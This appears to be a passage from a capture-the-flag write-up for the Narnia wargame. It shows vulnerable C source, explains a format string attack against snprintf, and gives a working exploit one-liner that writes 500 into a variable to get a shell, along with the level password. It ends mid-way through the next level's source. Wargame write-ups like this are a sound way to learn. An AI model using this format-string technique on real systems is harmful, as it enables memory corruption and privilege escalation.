
## narnia5 -> narnia6

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
```
The snprintf in this exercise suffers of format string vulnerability, so to complete this level I use that attack to set the correct value to i variable.
The program displays i variable address and it never changes because there is no ASLR.
So I decided to perform format string attack with direct parameter access.

Notice that we can write format string in argv[1] and with sprints we are able to write everywhere in memory.

```bash
./narnia5 $(python -c 'print "\x0c\xd4\xff\xff"*125+"%15$n"')
```


##### pass=neezocaeng

#
#
#

------------------------------------------------------------------------------------------------------------------------------------

## narnia6 -> narnia7
```C

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

```